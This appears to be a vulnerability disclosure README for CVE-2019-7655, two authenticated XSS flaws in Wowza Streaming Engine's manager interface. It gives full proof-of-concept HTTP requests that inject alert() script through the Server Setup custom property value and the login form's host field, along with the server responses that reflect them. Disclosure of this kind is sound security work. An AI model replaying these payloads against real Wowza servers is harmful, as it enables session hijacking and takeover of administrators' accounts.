



# CVE-2019-7655-XSS-Wowza
Wowza Streaming Engine 4.7.7 and 4.7.8 suffers from multiple authenticated XSS vulnerabilities via the (1) customList%5B0%5D.value field in enginemanager/server/serversetup/edit_adv.htm of the Server Setup configuration or the (2) host field in enginemanager/j_spring_security_check of the login form.


### XSS(1)
User input is used inside a javascript function. By crafting a special payload, it is possible to alter the function and inject malicious content without breaking functionality.

<br />
By sending the following payload:

```
POST /enginemanager/server/serversetup/edit_adv.htm HTTP/1.1
Host: 172.17.60.171:8088
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.60.171:8088/enginemanager/Home.htm
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 383
Cookie: JSESSIONID=2bd567a3c22e0d2d7b4fdb9f6b935c48; lastMangerHost=http%3A//localhost%3A8087; showRightRail=true; lastTab=Advanced; DoNotShowFTU=true
Connection: close

vhost=_defaultVHost_&advSection=Custom&customList%5B0%5D.documented=false&customList%5B0%5D.enabled=true&customList%5B0%5D.type=String&customList%5B0%5D.sectionName=Server&customList%5B0%5D.section=%2FRoot%2FServer&customList%5B0%5D.name=asdasd&customList%5B0%5D.removed=false&customList%5B0%5D.value=asala";} alert("XSS ServerSetup"); if("true") { var a = "&advPath=%2FRoot%2FServer
```

<br />
The initTableDataProperties() function gets injected with malitious code:

```
HTTP/1.1 200 OK Server: Winstone Servlet Engine v1.0.5 Content-Type: text/html;charset=UTF-8 Connection: Close Date: Tue, 22 Jan 2019 13:34:59 GMT X-Powered-By: Servlet/2.5 (Winstone/1.0.5) Content-Language: en 
***TRUNCATED***
<script>
var tblDataProperties = new Array();
var tblIdxProperties=0;

initTableDataProperties();
updateTableProperties();

function initTableDataProperties()
{
	
		if("true") 
		{
			var newItem = new Object();
			newItem.orgIdx = tblIdxProperties++;
			newItem.added=false;
			newItem.removed="false"==="true";
			newItem.enabled="true"==="true";
			newItem.name="asdasd";
			newItem.value="asala";} alert("XSS ServerSetup"); if("true") { var a = "";
			newItem.type="String";
			newItem.section="/Root/Server";
			newItem.sectionName="Server";
			newItem.documented="false"==="true";
			newItem.uiBooleanValue="false"==="true";
			tblDataProperties.push(newItem);
		}
		
	
}
***TRUNCATED***
```

<br />
The injected code runs in the client browser:



### XSS(2)



Request:
```
POST /enginemanager/j_spring_security_check?wowza-page-redirect= HTTP/1.1
Host: 192.168.1.180:8088
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.180:8088/enginemanager/login.htm
Cookie: JSESSIONID=324c96d4de48fedbc282e9718f35f56d; DoNotShowFTU=true; lastMangerHost=http%3A//http%3A//192.168.1.180%3A8088%3Cscript%3Ealert%28%22XSS%22%29%3C/script%3E; showRightRail=true; lastTab=Basic
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 167

wowza-page-redirect=&j_username=ffff&j_password=ffff&authType=digest&host=http%3A%2F%2Fhttp%3A%2F%2F192.168.1.180%3A8088%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E
```

Response:
```
HTTP/1.1 200 OK 
Server: Winstone Servlet Engine v1.0.5 
Content-Type: text/html;charset=UTF-8 
Connection: Close Date: Sun, 27 Jan 2019 22:31:56 GMT 
X-Powered-By: Servlet/2.5 (Winstone/1.0.5) 
Content-Language: en 
***TRUNCATED***
			Sign In
	

				</h2>
				
					<div id="loginError" class="alert alert-danger"
						style="word-wrap: break-word">
						<!-- Your username or password is incorrect, please try again.
			<br /> Caused : -->
						Wowza Streaming Engine Manager could not connect to the Wowza Streaming Engine service(http://http://192.168.1.180:8088<script>alert("XSS")</script>). Verify that the Wowza Streaming Engine service has started and is running.
					</div>

***TRUNCATED***

```

<br />

